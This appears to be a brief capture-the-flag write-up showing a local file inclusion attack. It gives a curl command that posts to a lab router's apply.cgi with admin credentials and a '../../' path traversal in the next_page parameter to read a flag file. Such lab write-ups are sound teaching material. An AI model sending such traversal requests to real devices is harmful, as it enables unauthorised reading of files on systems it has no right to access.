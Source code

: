 +++
title = "Local File Inclusion"
date = 2021-10-18T20:39:54-06:00
weight = 5
+++

## Local File Inclusion
Run the following command to retrieve the flag:
```sh
curl --user 'admin:LvawK!*C@6MR!Cz#*V2$ze@#7v75iT' -X POST -d "submit_type=wsc_method2&change_action=gozila_cgi&next_page=../../tmp/flag.txt" http://172.21.0.15:8080/apply.cgi
```
The `next_page` parameter in the request specifies the file we want to read. The content of the file will be returned in the response.
